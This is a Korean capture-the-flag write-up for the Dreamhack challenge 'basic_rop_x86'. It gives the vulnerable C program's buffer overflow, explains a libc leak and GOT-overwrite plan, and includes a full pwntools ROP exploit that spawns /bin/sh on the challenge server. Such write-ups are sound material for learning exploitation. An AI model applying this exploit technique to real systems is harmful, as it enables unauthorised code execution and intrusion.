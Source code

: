 # [Dreamhack] basic_rop_x86

Created: 2022년 12월 6일 오후 9:59
Tags: Pwn

[https://dreamhack.io/wargame/challenges/30/](https://dreamhack.io/wargame/challenges/30/)

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

read함수에서 취약점이 발생한다. bof를 발생시키고 write함수로 read_got를 출력해서 실제주소를 구한다음에 lib_base를 구한다음 system_got를 알아내서 write_got값을 system_got로 변조시키면 system함수를 호출할 수 있게된다. 그리고 read함수로 bss영역에 `/bin/sh`을 입력하고 `/bin/sh` 을 인자로 system함수를 호출하면 쉘을 딸수 있을꺼 같다.

## 익스플로잇 코드

```python
from pwn import *

#p = process("./basic_rop_x86")
p = remote("host3.dreamhack.games", 10826)
e = ELF("./basic_rop_x86")
libc = ELF("./libc.so.6")

def slog(name, addr):
  return success(": ".join([name, hex(addr)]))

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
pop3ret = 0x8048689
popret = 0x080483d9
bss = e.bss()

payload = b'A' * 72

#read_got의 실제 주소 출력하기
payload += p32(write_plt) + p32(pop3ret) + p32(1) + p32(read_got) + p32(4)

#bss영역에 /bin/sh 입력하기
payload += p32(read_plt) + p32(pop3ret) + p32(0) + p32(bss) + p32(8)

#write_got system_got로 변조하기
payload += p32(read_plt) + p32(pop3ret) + p32(0) + p32(write_got) +p32(4)

#system으로 바뀐 write호출해서 /bin/sh실행
payload += p32(write_plt) + p32(popret) + p32(bss)

p.send(payload)

p.recvuntil(b'A' * 64)

read = u32(p.recvn(4))
lb = read - read_offset
system = lb + system_offset

slog("libc base", lb)
slog("read", read)
slog("system", system)

p.send(b'/bin/sh\x00')
p.sendline(p32(system))
p.interactive()
```

### 가젯 구하기

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x86.png)

### 익스코드 확인

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x86_1.png)
